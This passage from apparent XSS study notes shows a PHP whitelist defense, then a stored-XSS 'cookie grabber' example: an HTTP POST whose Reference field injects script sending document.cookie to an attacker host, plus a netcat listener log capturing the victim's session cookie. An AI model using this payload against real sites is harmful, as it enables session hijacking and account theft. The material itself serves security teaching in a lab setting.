 Only specific values are allowed in the `$_GET['default']` variable:
```php
switch ($_GET['default']) {
	case "French":
	case "English":
	case "German":
	case "Spanish":
		break;
	default:
		header("Location: index.php");
		exit;
}
```

#### 1.5. Cookie grabber example (persistent XSS)

Attacker posts a payload that gets stored in a database server-side:
```
POST /Payments/New HTTP/1.1
Host: 192.168.22.100
[FORMATTING CUT]

RecipientAccountSortCode=239068&Amount=100&&Reference=<script>window.location="http://192.168.22.10?cookie="%2bdocument.cookie</script>&csrf-token=&SubmitType=submit
```

Once the user visits the injected page (contains stored XSS) the JS payload is triggered and the attacker receives the cookie of the currently authenticated user:
```
# nc -nlvp 80
listening on [any] 80 ...
connect to [192.168.22.10] from (UNKNOWN) [192.168.22.100] 33510
GET /?cookie=xss-flag=acfa7b74bd33fa585dbbc848d49ad23ea049 HTTP/1.1
Host: 192.168.22.10
[FORMATTING CUT]
```

